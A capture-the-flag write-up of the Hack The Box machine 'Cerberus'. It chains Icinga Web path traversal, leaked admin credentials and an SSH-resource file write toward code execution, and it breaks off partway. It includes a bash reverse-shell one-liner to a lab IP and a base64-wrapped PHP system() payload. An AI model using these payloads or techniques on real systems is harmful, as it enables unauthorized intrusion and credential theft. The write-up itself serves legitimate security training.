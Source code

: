 ```yaml
---
description: https://app.hackthebox.com/machines/534
---
```


# 🐶 Cerberus

<figure><img src="../../../.gitbook/assets/image (947).png" alt=""><figcaption></figcaption></figure>

We start by scanning our application and looking at the output we can imagine a web server with some sort of pivoting into an internal server:

<figure><img src="../../../.gitbook/assets/image (948).png" alt=""><figcaption></figcaption></figure>

So we can see this landing page after putting everything we need into the /etc/hosts file:

<figure><img src="../../../.gitbook/assets/image (949).png" alt=""><figcaption></figcaption></figure>

after looking up the known exploits:

{% embed url="https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/" %}

This hits my eye:

<figure><img src="../../../.gitbook/assets/image (951).png" alt=""><figcaption></figcaption></figure>

I'll fire up burp and try to look for this file ->

and after a bit of troubleshooting, we find this entry point:

<figure><img src="../../../.gitbook/assets/image (952).png" alt=""><figcaption></figcaption></figure>

So we got a nice file read vuln right here and we can see the DC.cerberus.local domain that looks like an internal network

so we can pretty much go and look at what would be some web config pages with inciga that we would want to read ->

{% embed url="https://icinga.com/docs/icinga-web/latest/doc/03-Configuration/" %}

<figure><img src="../../../.gitbook/assets/image (953).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (954).png" alt=""><figcaption></figcaption></figure>

So we look around those files and find something fun:

<figure><img src="../../../.gitbook/assets/image (956).png" alt=""><figcaption></figcaption></figure>

So we can find matthew in the Admin group and his creds and we can access the dashboard thanks to those:

&#x20;

<figure><img src="../../../.gitbook/assets/image (957).png" alt=""><figcaption></figcaption></figure>

So we see some stuff about modules, let's keep that in mind. In the first website we could see an auth user CVE:

<figure><img src="../../../.gitbook/assets/image (959).png" alt=""><figcaption></figcaption></figure>

So we see something about ssh ressource, can we find this on the website:

<figure><img src="../../../.gitbook/assets/image (960).png" alt=""><figcaption></figcaption></figure>

I see a private key input, so i gen my key:

```
openssl genrsa -out mykey.pem 1024
```

<figure><img src="../../../.gitbook/assets/image (962).png" alt=""><figcaption></figcaption></figure>

then i'll upload everything using my own key:

<figure><img src="../../../.gitbook/assets/image (961).png" alt=""><figcaption></figcaption></figure>

I just modified the user since the article talked about saving the resource outside the intended directory and was able to access my key using this technique:

<figure><img src="../../../.gitbook/assets/image (963).png" alt=""><figcaption></figcaption></figure>

Since \<e have access to the files, maybe we can trigger a PHP revers shell:

```
echo -n '/bin/bash -i >& /dev/tcp/10.10.14.141:3636 0>&1' | base64 -w 0
```

<figure><img src="../../../.gitbook/assets/image (976).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (979).png" alt=""><figcaption></figcaption></figure>

```
<?php system("echo -n L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE0MTozNjM2IDA+JjE | base64 -d | bash")?>
```

We can see how the CVE is trhiggered:

[https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/](https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/)

<figure><img src="../../../.gitbook/assets/image (980).png" alt=""><figcaption></figcaption></figure>

So for the payload to be triggered, we need to put a null byte in between the cert and the payload

So we put a null byte in between and forward the request:

<figure><img src="../../../.gitbook/assets/image (981).png" alt=""><figcaption></figcaption></figure>

And we can see here how we trigger the code, we have to change the default path of the modules to the place we put our payload:

<figure><img src="../../../.gitbook/assets/image (982).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (983).png" alt=""><figcaption></figcaption></figure>

We change this to /dev/shm

